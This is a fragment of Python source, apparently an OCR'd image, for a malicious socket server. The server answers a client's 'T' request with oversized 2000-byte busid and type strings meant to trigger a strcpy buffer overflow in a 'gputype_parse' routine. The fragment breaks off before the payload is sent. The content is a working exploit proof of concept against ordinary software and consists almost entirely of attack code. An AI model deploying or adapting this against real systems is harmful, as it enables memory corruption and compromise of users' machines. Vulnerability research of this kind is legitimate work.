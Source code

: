 def create_malicious_response(msg_type, data_length, data):
    # Prelude: type (1 byte) + length (4 bytes, little-endian)
    prelude = msg_type.encode('ascii') + struct.pack('<I', data_length)
    return prelude + data.encode('ascii')

def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind((HOST, PORT))
        s.listen()
        print(f"Listening on {HOST}:{PORT}...")

        conn, addr = s.accept()
        with conn:
            print(f"Connected by {addr}")

            # Receive initial request (should be 'T')
            data = conn.recv(5) # 'T' + 4 bytes length
            if not data or data[0] != ord('T'):
                print("Did not receive expected 'T' request.")
                return

            # Craft and send malicious 'T' response
            # This will cause gputype_parse to store out-of-bounds pointers
            # The length here is for the *entire* data section, including null terminators and multiple entries
            # Let's make the busid and type strings very long
            long_string_busid = 'A' * 2000 # Longer than expected buffer
            long_string_type = 'B' * 2000  # Longer than expected buffer
            
            # Format: busid\0type\0...
            # The actual length of the data sent will be len(long_string_busid) + 1 + len(long_string_type) + 1
            # We need to ensure the reported length in the prelude is large enough to cause the allocation,
            # but the actual data sent is what causes the strcpy overflow.
            # The vulnerability is in strcpy, so we need the string itself to be long.
            